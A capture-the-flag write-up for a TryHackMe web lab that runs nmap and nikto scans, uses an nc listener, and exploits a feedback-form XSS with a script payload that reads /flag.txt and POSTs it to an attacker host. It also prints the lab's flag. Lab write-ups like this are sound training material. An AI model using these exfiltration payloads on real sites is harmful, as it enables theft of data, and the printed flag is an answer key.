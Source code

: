# The Sticker Shop
Can you exploit the sticker shop in order to capture the flag?

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

```
ip = 10.10.100.97
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.100.97
```

>8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
>
>22/tcp   open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)



## Task 1.

```
nikto -h http://10.10.100.97:8080 | tee nikto.log
```

On the webpage, I noticed two sections: a **Home Page** and a **Feedback Page**. To test for XSS vulnerabilities, I decided to use the feedback form.

I started by running a listener on my machine using:

```
nc -lnvp 4444
```

Then, I submitted the following payload as feedback:

```html
<img src='http://<ATTACKER_IP>:4444' />
```

As soon as I submitted the form, I received a connection request on my machine, confirming the XSS vulnerability. 

Next, I attempted to retrieve the contents of `/flag.txt` by submitting the following JavaScript payload as feedback:

```html
<script>
fetch('/flag.txt')
    .then(response => response.text())
    .then(data => {
        fetch('http://<ATTACKER_IP>:4444', {
            method: 'POST',
            body: data
        });
    });
</script>
```

After a few seconds, the flag.txt content was successfully sent to my machine.


## Questions

1. What is the content of flag.txt?
    >THM{83789a69074f636f64a38879cfcabe8b62305ee6}